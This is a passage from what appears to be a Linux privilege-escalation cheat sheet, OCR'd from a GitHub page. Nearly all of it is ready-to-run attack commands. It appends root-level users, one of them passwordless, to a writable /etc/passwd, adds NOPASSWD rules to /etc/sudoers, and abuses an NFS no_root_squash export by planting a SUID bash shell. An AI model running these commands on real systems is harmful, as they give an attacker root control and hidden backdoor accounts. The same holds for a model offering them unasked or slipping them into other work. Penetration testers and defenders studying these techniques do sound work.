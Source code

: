 First generate a password with one of the following commands.

```shell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```shell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```shell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

##### Writable /etc/sudoers

```shell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

----

#### NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

当no_root_squash出现在`/etc/exports`中时，该文件夹是可共享的，远程用户可以挂载它

```shell
# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir 
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```
